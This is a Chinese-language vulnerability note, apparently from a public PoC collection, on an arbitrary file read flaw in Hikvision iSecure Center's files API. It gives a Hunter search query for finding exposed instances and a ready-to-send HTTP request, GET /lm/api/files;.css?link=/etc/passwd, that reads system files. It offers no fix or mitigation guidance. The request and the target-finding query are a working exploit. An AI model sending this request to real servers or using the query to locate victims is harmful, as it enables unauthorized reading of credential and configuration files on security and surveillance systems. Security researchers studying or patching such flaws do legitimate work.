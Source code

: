 # 海康威视iSecure Center 综合安防管理平台files 接口存在任意文件读取漏洞

# 一、漏洞简介
<font style="color:rgb(0, 0, 0);">HIKVISION iSecure Center综合安防管理平台是一套“集成化”、“智能化”的平台，通过接入视频监控、一卡通、停车场、报警检测等系统的设备，获取边缘节点数据，实现安防信息化集成与联动，以电子地图为载体，融合各系统能力实现丰富的智能应用。HIKVISION iSecure Center平台基于“统一软件技术架构”先进理念设计，采用业务组件化技术，满足平台在业务上的弹性扩展。该平台适用于全行业通用综合安防业务，对各系统资源进行了整合和集中管理，实现统一部署、统一配置、统一管理和统一调度。海康威视iSecure Center 综合安防管理平台files 接口存在任意文件读取漏洞，攻击者可通过该漏洞读取服务器上任意文件，获取敏感信息。</font>

# <font style="color:rgb(0, 0, 0);">二、影响版本</font>
+ <font style="color:rgb(0, 0, 0);">HIKVISION iSecure Center综合安防管理平台</font>

# <font style="color:rgb(0, 0, 0);">三、</font><font style="color:rgb(0, 0, 0);">资产测绘</font>
**hunter查询语法：**

`<font style="color:rgb(0, 0, 0);">app.name=="Hikvision 海康威视 iSecure Center"</font>`

![1691858054561-aa88559b-46e0-4837-ae4c-6f3e9e3982c5.png](./img/OAqEWr4K1U6jmvTP/1691858054561-aa88559b-46e0-4837-ae4c-6f3e9e3982c5-092169.png)

+ <font style="color:rgb(0, 0, 0);">登录页面</font>

![1691858046745-db2cadc6-9bde-4037-952f-2faf2537b85f.png](./img/OAqEWr4K1U6jmvTP/1691858046745-db2cadc6-9bde-4037-952f-2faf2537b85f-321706.png)

# <font style="color:rgb(0, 0, 0);">四、漏洞复现</font>
```plain
GET /lm/api/files;.css?link=/etc/passwd HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1866.237 Safari/537.36
Connection: close
Accept-Encoding: gzip, deflate, br
```

![1701837056180-c3c2c99a-7025-482f-a16a-a184ea9b0619.png](./img/OAqEWr4K1U6jmvTP/1701837056180-c3c2c99a-7025-482f-a16a-a184ea9b0619-784391.png)



> 更新: 2024-02-29 23:57:17  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/unwcbu4dxgpzlizn>